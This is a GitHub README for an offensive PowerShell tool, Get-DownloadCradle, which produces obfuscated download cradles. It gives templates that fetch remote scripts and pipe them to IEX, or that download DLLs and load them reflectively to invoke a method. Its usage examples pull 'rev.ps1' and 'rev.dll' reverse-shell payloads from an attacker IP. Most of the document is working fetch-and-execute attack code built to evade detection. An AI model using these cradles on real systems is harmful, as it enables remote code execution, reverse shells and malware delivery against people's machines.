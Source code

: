 # Obfuscated PowerShell Download Cradles

Get-DownloadCradle is a project that stems from the [Invoke-PSObfuscation](https://github.com/gh0x0st/invoke-psobfuscation) framework, with the sole purpose of producing obfuscated download cradles for PowerShell. 

## Cradle Templates

This script includes templates for three PowerShell download cradles, namely `DownloadString`, `DownloadFile` and `DownloadData`. The resulting payloads are output as a one liner, but have been split below for readability. 

__DownloadString__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadString("<DOWNLOADPATH>") | IEX
```
__DownloadFile__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("<DOWNLOADPATH>","<LOCALPATH>")
$Assem = [System.Reflection.Assembly]::LoadFile("<LOCALPATH>")
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

__DownloadData__

```powershell
$WebClient = New-Object System.Net.WebClient
$Data = $WebClient.DownloadData("<DOWNLOADPATH>")
$Assem = [System.Reflection.Assembly]::Load($Data)
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated cradles are compatible on Windows systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-DownloadCradle.ps1
```

With the script loaded into our PowerShell session, we need to run the `Get-DownloadCradle` function and supply the cradle type and accompanying information to inject into the payload. Keep in mind that your class and method names are unique to your corresponding payload.

__DownloadString__

`Get-DownloadCradle -DownloadString -DownloadPath http://192.168.49.80/rev.ps1`

__DownloadFile__

`Get-DownloadCradle -DownloadFile -DownloadPath http://192.168.49.80/rev.dll -LocalPath C:\rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__DownloadData__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__Output to File__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -OutFile obfuscated.ps1`
